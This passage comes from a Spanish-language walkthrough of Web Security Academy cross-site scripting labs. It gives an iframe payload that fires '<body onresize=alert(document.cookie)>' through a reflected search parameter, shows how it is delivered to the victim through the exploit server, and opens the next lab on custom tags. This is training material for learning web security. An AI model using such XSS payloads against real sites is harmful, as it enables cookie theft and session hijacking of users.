 Ahora hacemos clic en **Go to exploit server** y diseñamos un iframe para que realice el **resize** por nosotros.

```
<iframe src="https://ac2f1fe11f9e36b080425a7400750067.web-security-academy.net/?search=%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='100px'>
```

Entonces le damos en **Store** y luego en **Deliver exploit to victim**.

![](img23.png)

Y luego de ello vamos al home del laboratorio para ver que lo completamos.

![](img24.png)

## 7. Lab: Reflected XSS into HTML context with all tags blocked except custom ones

```
This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie.
```
